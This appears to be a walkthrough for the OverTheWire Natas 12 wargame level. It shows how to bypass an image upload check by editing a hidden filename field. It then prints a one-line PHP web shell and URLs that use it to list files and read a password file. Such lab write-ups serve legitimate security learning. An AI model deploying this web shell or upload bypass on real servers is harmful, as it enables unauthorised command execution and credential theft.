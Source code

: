 # 🔐 Natas 12 Walkthrough 

  >[!IMPORTANT]
  >📝 The full script with a commented explanation is provided in the `natas12` directory. Feel free to use it while debugging your code. Good luck!

You'll see an upload form that allows uploading an image file. It mentions that it checks the file type.

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input name="uploadedfile" type="file" />
  <input type="submit" value="Upload File" />
</form>
```
***Let's test it.***

## 🐚 Upload a PHP Shell to the Server

Try uploading a `.php` file disguised as an image. Here's a simple payload to retrieve the password:

```php
<?php echo shell_exec($_GET['e'] . ' 2>&1'); ?>
```
### What does this code do?

- `$_GET['e']` retrieves the value of the `e` parameter from the URL query string.  
  Example: If the URL is `script.php?e=ls`, then `$_GET['e']` will be `'ls'`.

- `. ' 2>&1'` appends `' 2>&1'` to the command. This redirects `stderr` (file descriptor 2) to `stdout` (file descriptor 1), so both standard output and error messages are captured together.

- `shell_exec()` executes the complete shell command on the server. It returns the output of the command, including errors (because of `2>&1`).

- `echo` outputs the result of `shell_exec()` to the browser/user.



Save your script as `shell.php` and upload it using the form. However, you'll notice that the server renames the uploaded file to something like `<randomstring>.jpg`. This is a problem because `.jpg` files are not parsed as PHP, so **your code won’t execute.**

To get around this, we need to manipulate the upload request so that the file is saved with a `.php` extension on the server.

### 🛠️ How to change the filename

Inspect the page and look for this hidden input:
```
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.jpg">
```
***Change it to:***
```
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.php">
```
This ensures that your uploaded file gets saved as a `.php` file and will be executed by the server.

## 🔎 Getting the natas13 Password

As we know, the passwords are stored in `/etc/natas_webpass/natasX`. We want to read the contents of:

```
/etc/natas_webpass/natas13
```

Clicking on the uploaded file shows this error:
```
Notice: Undefined index: e in /var/www/natas/natas12/upload/r3bkauo8pd.php on line 4
```
As expected bacause we added this variable in our code. This tells us we need to supply a value to the `e` parameter in the URL.

### ✅ Example: Listing directory contents

To list files in the current directory, use the `ls` command via the URL like so:

```
http://natas12.natas.labs.overthewire.org/upload/r3bkauo8pd.php?e=ls
```
If that works, you should see a list of files.

### 🧠 Now use `cat` to read the password file:
```
http://natas12.natas.labs.overthewire.org/upload/r3bkauo8pd.php?e=cat%20/etc/natas_webpass/natas13
```
> [!CAUTION]  
> You **must** use `%20` (URL encoding for space) in the URL. Using a literal space or nothing will result in an error!

If done correctly, you'll be shown the password for **natas13**. 

